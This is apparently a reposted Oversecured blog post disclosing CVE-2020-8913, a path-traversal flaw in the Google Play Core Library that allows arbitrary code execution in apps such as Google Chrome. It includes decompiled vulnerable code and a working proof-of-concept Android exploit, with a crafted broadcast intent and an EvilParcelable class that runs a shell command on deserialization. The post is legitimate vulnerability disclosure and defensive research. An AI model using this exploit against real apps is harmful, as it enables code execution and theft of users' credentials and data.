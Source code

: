 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.oversecured.com](https://blog.oversecured.com/Oversecured-automatically-discovers-persistent-code-execution-in-the-Google-Play-Core-Library/)

Oversecured is happy that we were able to create a technology that allows us to detect tricky vulnerabilities with a very low false-positive rate and be better than a researcher’s eye! Oversecured’s service is adapted to Android security and privacy. It can detect a lot of different attack vectors and privacy issues (starting from known arbitrary code executions, theft/overwrite of arbitrary files, and ending with ability to theft user pictures, fake SMS messages, leak Android app logs, the full list is available [here](https://oversecured.com/vulnerabilities)), the kernel tracks unsafe and potentially dangerous data from the browser, third-party apps, a network shared with an attacker, Bluetooth and NFC connections, SMS messages, local public storage, etc. We accept APK files (Android apps), decompile them to Java sources, and perform analysis against them. An Oversecured’s user will receive a report showing a trace of data in the app’s sources, displaying where the dangerous data is coming from, sources that will process that data, and the place where’s the vulnerability happens.

Summary
-------

The Google Play Core Library is a popular library for Android that allows updates to various parts of an app to be delivered at runtime without the participation of the user, via the Google API. It can also be used to reduce the size of the main apk file by loading resources optimized for a particular device and settings (localization, image dimensions, processor architecture, dynamic modules) instead of storing dozens of different possible versions. The vulnerability we discovered made it possible to add executable modules to any apps using the library, meaning arbitrary code could be executed within them. An attacker who had a malware app installed on the victim’s device could steal users’ login details, passwords, and financial details, and read their mail.

Introduction
------------

Experts at Oversecured’s scanning kernel development department tested an update on several popular apps and discovered that something interesting had triggered the scanner. In many cases, we uncovered [Theft of arbitrary files](https://oversecured.com/vulnerabilities#Theft_of_arbitrary_files) and [Overwriting arbitrary files](https://oversecured.com/vulnerabilities#Overwriting_arbitrary_files) vulnerabilities in the Google Play Core library’s source code. Below we present a listing of the vulnerability from the report:

![](https://blog.oversecured.com/assets/images/fourth-article-code-blocks.png)

An exploit was written to steal arbitrary files, and a draft report was written to send to Google. Subsequently, the scope for developing the attack was investigated. As a result, the updated exploit made it possible to substitute executable files and achieve the execution of arbitrary code. The testing took place on the Google Chrome app.

Fragment of the vulnerable code
-------------------------------

The Google Chrome app was decompiled with the deobfuscation option set, and fragments of the resulting code are presented below.

An unprotected broadcast receiver in the file `com/google/android/play/core/splitinstall/C3748l.java` allows third-party apps to send specially crafted intents into it, forcing a vulnerable app to copy arbitrary files to arbitrary locations specified in the parameter `split_id` which is vulnerable to path-traversal.

Registration of the unprotected broadcast receiver in the file `com/google/android/play/core/splitinstall/C3748l.java`

```
private C3748l(Context context, C3741e eVar) {
    super(new ae("SplitInstallListenerRegistry"), new IntentFilter("com.google.android.play.core.splitinstall.receiver.SplitInstallUpdateIntentService"), context);


```

File `com/google/android/play/core/listener/C3718a.java`

```
protected C3718a(ae aeVar, IntentFilter intentFilter, Context context) {
    this.f22595a = aeVar;
    this.f22596b = intentFilter; // intent filter with action `com.google.android.play.core.splitinstall.receiver.SplitInstallUpdateIntentService`
    this.f22597c = context;
}

private final void m15347a() {
    if ((this.f22600f || !this.f22598d.isEmpty()) && this.f22599e == null) {
        this.f22599e = new C3719b(this, 0);
        this.f22597c.registerReceiver(this.f22599e, this.f22596b); // registration of unprotected broadcast receiver


```

allows third-party apps installed on the same device to broadcast arbitrary data here.

The file `com/google/android/play/core/splitinstall/SplitInstallSessionState.java` processes the message received

```
public static SplitInstallSessionState m15407a(Bundle bundle) {
    return new SplitInstallSessionState(bundle.getInt("session_id"), bundle.getInt("status"), bundle.getInt("error_code"), bundle.getLong("bytes_downloaded"), bundle.getLong("total_bytes_to_download"), bundle.getStringArrayList("module_names"), bundle.getStringArrayList("languages"), (PendingIntent) bundle.getParcelable("user_confirmation_intent"), bundle.getParcelableArrayList("split_file_intents")); // `split_file_intents` will be parsed
}


```

In the file `com/google/android/play/core/internal/ab.java` the library copies content from the URI from `split_file_intents` into the `unverified-splits` directory under the name `split_id`, which is subject to path-traversal due to the absence of validation

```
for (Intent next : list) {
    String stringExtra = next.getStringExtra("split_id");
    File a = this.f22543b.mo32067a(stringExtra); // path traversal from `/data/user/0/{package_name}/files/splitcompat/{id}/unverified-splits/`
    if (!a.exists() && !this.f22543b.mo32067b(stringExtra).exists()) {
        bufferedInputStream = new BufferedInputStream(new FileInputStream(this.f21840a.getContentResolver().openFileDescriptor(next.getData(), "r").getFileDescriptor())); // data of `split_file_intents` intents
        fileOutputStream = new FileOutputStream(a);
        byte[] bArr = new byte[4096];
        while (true) {
            int read = bufferedInputStream.read(bArr);
            if (read <= 0) {
                break;
            }   
            fileOutputStream.write(bArr, 0, read);


```

After further careful research, it emerged that the `verified-splits` folder contains verified apks with the current app’s signature, which are no longer verified in the future. When a file in that folder starts with a `config.` prefix, it will be added to the app’s runtime ClassLoader automatically. Using that weakness, the attacker can create a class implementing e.g. the `Parcelable` interface and containing malicious code and send their instances to the affected app, meaning the `createFromParcel(...)` method will be executed in their context during deserialization leading to local code execution.

Proof of Concept
----------------

A Proof of Concept was created for the Google Chrome app: it executes the command `chmod -R 777 /data/user/0/com.android.chrome` in the context of the vulnerable app. It first launches the app’s main activity, as a result of which an unprotected receiver is registered in the Google Play Core library code. 3 seconds later it sends a command to the receiver, which causes the affected app to be added in its entirety to the default ClassResolver. After 5 seconds the attacking app sends the `EvilParcelable` object, which automatically executes the command on being deserialized. Deserialization happens automatically, due to the way Android works. When a component receives an Intent, all attached objects are deserialized on receipt of a value or state (the `Intent.hasExtra(name)` method).

```
public static final String APP = "com.android.chrome";

protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent launchIntent = getPackageManager().getLaunchIntentForPackage(APP);
    startActivity(launchIntent);

    new Handler().postDelayed(() -> {
        Intent split = new Intent();
        split.setData(Uri.parse("file://" + getApplicationInfo().sourceDir));
        split.putExtra("split_id", "../verified-splits/config.test");

        Bundle bundle = new Bundle();
        bundle.putInt("status", 3);
        bundle.putParcelableArrayList("split_file_intents", new ArrayList<Parcelable>(Arrays.asList(split)));

        Intent intent = new Intent("com.google.android.play.core.splitinstall.receiver.SplitInstallUpdateIntentService");
        intent.setPackage(APP);
        intent.putExtra("session_state", bundle);
        sendBroadcast(intent);
    }, 3000);

    new Handler().postDelayed(() -> {
        startActivity(launchIntent.putExtra("x", new EvilParcelable()));
    }, 5000);
}


```

Code for the class that executes the command under the attacker’s control on deserialization

```
package oversecured.poc;

import android.os.Parcelable;

public class EvilParcelable implements Parcelable {
    public static final Parcelable.Creator<EvilParcelable> CREATOR = new Parcelable.Creator<EvilParcelable>() {
        public EvilParcelable createFromParcel(android.os.Parcel parcel) {
            exploit();
            return null;
        }

        public EvilParcelable[] newArray(int i) {
            exploit();
            return null;
        }

        private void exploit() {
            try {
                Runtime.getRuntime().exec("chmod -R 777 /data/user/0/" + MainActivity.APP).waitFor();
            }
            catch (Throwable th) {
                throw new RuntimeException(th);
            }
        }
    };

    public int describeContents() { return 0; }
    public void writeToParcel(android.os.Parcel parcel, int i) {}
}


```

Conclusion
----------

This vulnerability was assessed by Google as highly dangerous. It meant many popular apps, including Google Chrome, were vulnerable to arbitrary code execution. This could lead to leaks of users’ credentials and financial details, including credit card history; to interception and falsification of their browser history, cookie files, etc. To remove it, developers should update the Google Play Core library to the latest version and users should update all their apps.

Timeline  
02/26/2020 - Scanner triggered, first exploit to steal arbitrary files created  
02/27/2020 - Vulnerability studied in greater detail, exploit to execute arbitrary code created, information sent to Google  
04/06/2020 - Google confirmed the vulnerability has been fixed  
07/22/2020 - Google assigned CVE-2020-8913
